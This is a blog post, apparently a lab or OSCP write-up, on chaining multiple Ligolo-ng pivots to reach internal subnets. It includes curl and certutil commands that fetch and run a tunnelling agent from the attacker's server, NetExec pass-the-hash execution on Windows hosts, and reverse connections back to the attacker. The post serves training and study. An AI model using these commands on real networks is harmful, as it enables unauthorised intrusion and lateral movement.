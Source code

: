 ```yaml
---
title: "Ligolo-ng Multi-Pivot - My methods"
date: 2024-06-27T00:00:30-06:00
categories:
  - blog
tags:
  - Networking
  - Pivoting
  - Routing
  - Ligolo
  - OSCP
---
```


There are plenty of articles, blogs, and how-tos out there that show how to use Ligolo-ng to tunnel your traffic through dispersed networks. I used many of them myself to learn how to use Ligolo-ng. I am sure there are some that explain even what I will today, but when I looked quickly, I didn't see one, and I need to create content, so this was born.

My hope for this post is to present some techniques to implement Ligolo-ng that may be helpful. It may be more appropriate to name this something like "Pivoting with Ligolo-ng - My Methods." I am going to focus this methodology on a single scenario: the multi-pivot, but with a bit of a twist. The final pivot will not route to a different subnet, only to a portion of an existing subnet unavailable to me from the previous pivot. I believe this will allow me to show enough content to make this blog post worth reading.

Let's dive into the scenario and the steps to achieve this unique pivoting method with Ligolo-ng.
(I will be redacting information that would identify the lab i am using. I don't know if it is neccesary but best to be safe.)

## Toolset
- Ligolo-ng - [nicocha30/ligolo-ng: An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface. (github.com)](https://github.com/Nicocha30/ligolo-ng)
- Net-Exec  - [Pennyw0rth/NetExec: The Network Execution Tool (github.com)](https://github.com/Pennyw0rth/NetExec)

## Preparation
I am going to get some preparation out of the way now in order to keep this as organized as possible, for you and for me.  TUN interfaces are used to route traffic between the ligolo server and agents.  These don't exist so we must create them.  

### Create TUN Interfaces
The below commands will create three TUN interfaces for my user, `kali`.`
```bash
sudo ip tuntap add user kali mode tun ligolo1
sudo ip link set ligolo1 up

sudo ip tuntap add user kali mode tun ligolo2
sudo ip link set ligolo2 up

sudo ip tuntap add user kali mode tun ligolo3
sudo ip link set ligolo3 up
```

![A](/_posts/res/ligolopivoting/Pasted image 20240627051159.png?raw=true)
*Three ligolo TUN interfaces, my existing VPN connection, and my virtual ethernet.*

### My Terminals
Maybe not what you have come here for exactly but this post is about how I implement ligolo and  staying organized is a big part of it for me. That said, i use `Terminator` for my terminals.  It has some features that i use alot, but that may be another blog one day.  For today we will just focus on how it helps with ligolo.  When doing labs and CTF work i have many tabs open at once, and try to utilize them only for they are mean to be used for.  My ligolo tab houses any terminal window used to manage TUN interfaces.  Mainly, ligolo proxy and a terminal per ligolo agent.  Makes it super easy to bring them all back up if something fails.  Let's start ligolo and see what our space looks like.
![[Pasted image 20240627052707.png]]
*Ligolo started from our `loadables` (This is the web server root) directory*

## Initiate first pivot
The first pivot in this lab happens on a linux machine.  I will SSH in, grab our ligolo linux agent and connect it to our ligolo proxy.

```bash
curl http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_linux_amd64/agent -0 -o /tmp/agent ; chmod +x /tmp/agent

/tmp/agent -connect 10.10.15.252:11601 -ignore-cert
```
*Connect back to our VPN address and ignore the cert warning since we are using a self signed cert. The autocert feature is pretty easy to use but i just dont bother in the labs.*

With the agent connected we can start the tunnel.  We will use our first TUN interface for this.

![](/_posts/res/ligolopivoting/Pasted image 20240627064200.png?raw=true)
*Selected the session. Started the tunnel on ligolo1 TUN interface.*

Now all that is left for the first pivot is to add a route table entry on our attack machine.  The internal network on this lab is 172.16.1.0/24.

```bash
sudo ip route add 172.16.1.0/24 dev ligolo1
```
![](/_posts/res/ligolopivoting/Pasted image 20240627055507.png?raw=true)

Thats pivot one. Lets move on.

## Initiate second pivot
The second pivot is a standard pivot that will give us access to a new subnet 172.16.2.0/24.  Now even though this pivot host can route back to our attack host i will be using a listener on our first agent to forward the traffic anyway. I do this for two reasons. 1) it helps my brain to have a standard way of doing things.  2) From MY limited experience to this point... it seems more stable.

To setup the listener we will make sure the first session is selected (I know we only have one session currently so this may not make sense, but if you ever add a listener on the wrong session in ligolo you may find out the hard way that you should have done this bit of due diligence in the first place.), and then issue the `listener_add` command in ligolo. 

```bash
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:11601
```
![](/_posts/res/ligolopivoting/Pasted image 20240627064457.png?raw=true)
- --addr 0.0.0.0:443 sets up the listener interface and port on our pivot host
	- Using the all interfaces 0.0.0.0 is kind of lazy. this first pivot host does have multiple ips and we only really need this to run on one but .... meh. I may show a good reason later for this to be the internal address
- --to defines where the traffic destined for 443 on 0.0.0.0 will be sent to 
	- because this is the first pivot 127.0.0.1 actually means to send it to our attack host.  This could most likely be interchanged with our VPN address making it more clear. but... meh

With that out of the way, let's get our ligolo agent on this Windows box and connect it back to our listener.  Using Net-Connect is my preferred way of handling this, as i imagine it is alot of yours as well. 

```bash
nxc smb 172.16.1.254 -u user -H hash -x 'certutil -f -urlcache http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'
```
![](/_posts/res/ligolopivoting/Pasted image 20240627062722.png?raw=true)

```bash
nxc smb 172.16.1.254 -u user -H hash -x 'c:\windows\system32\agent.exe -connect 172.16.1.23:443 -ignore-cert'
```

Now we select the session and start it on the ligolo2 TUN.
![](/_posts/res/ligolopivoting/Pasted image 20240627063703.png?raw=true)

I know that a portion of that subnet is not available from this pivot host.  I will act like i don't know that and then we will fix the routing later. 
![](/_posts/res/ligolopivoting/Pasted image 20240627063949.png?raw=true)

## Initiate third pivot
So we are already routing 172.16.2.0/24 over ligolo2 and this pivot is going to be a pivot to that same range but only available from this pivot host.  i want to maintain the integrity of my forwarding chain while still making it to this section of the network. 

Let's limit our routing to ligolo2 to only include our pivot host.
```bash
# Add an entry for 2.102 to route tthrough ligolo2
sudo ip route add 172.16.2.102/32 dev ligolo2
# Remove subnet route
sudo ip route del 172.16.2.0/24
```
![](/_posts/res/ligolopivoting/Pasted image 20240627065656.png?raw=true)

Now let's prepare a listener on our second pivot host session to connect this third pivot agent to. (I know. I'm sorry.)
```bash
listener_add --addr 0.0.0.0:443 --to 172.16.1.23:443
```

Now we can connect our agent to our new listener. we will use the same Net-Exec command to download the agent and run it on this windows host as we did on the last except this time we will connect to our new listener.
```bash
-x 'certutil -f -urlcache http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'

-x 'c:\windows\system32\agent.exe -connect 172.16.1.5:443 -ignore-cert'
```

Once it connects, we will select the session and start the tunnel on the ligolo3 TUN interface.
```bash
start --tun ligolo3
```

Because I know what host is behind ligolo3 I can just add a host route (/32) to the table to reach it. But we will leave some more discussion about this for the closing thoughts. Let's add the host route and call it mission accomplished.

```bash
sudo ip route add 172.16.2.12/32 dev ligolo3
```
![](/_posts/res/ligolopivoting/Pasted image 20240627071910.png?raw=true)

## Closing Thoughts
- Had i used specific IPs when setting up the listeners instead of 0.0.0.0 then when issuing the listener_list command in ligolo it would be easier to follow the trail
- If at any pivot point a network could not route to my VPN network or any upstream network in the forwarding chain i would have needed to add a port forward for my web server.  I like to try and use all the same ports where possible so in my case i would have added listeners to forward out port 8000 through the chain.
- Net-Exec isn't the only way to do download and start the agents but i find when possible it just makes life easier.
- This routing method could become tedious. :/

